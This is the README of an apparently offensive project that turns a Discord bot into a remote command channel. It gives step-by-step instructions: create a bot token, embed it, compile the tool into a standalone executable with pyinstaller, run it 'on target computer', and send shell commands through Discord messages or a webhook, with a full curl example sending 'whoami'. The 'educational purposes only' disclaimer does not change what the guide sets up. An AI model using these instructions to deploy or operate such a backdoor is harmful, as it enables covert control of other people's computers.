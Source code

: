 # Requirements
Python3

Discord

Discord BOT

Discord Webhook (optional, only if you don't want to interact directly with the server)


### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py (pip install discord)

pyinstaller (pip install pyinstaller)


# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.

In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.

Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.

Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.

Add the discord name of the users that will send the commands.

Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 

Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 

The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.


### Webhook (Optional)

You also can use webhooks to send the commands, that way you won't interact directly with the server.

Go to Discord Server Settings > Integrations > Webhooks

Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.

Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```



## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do
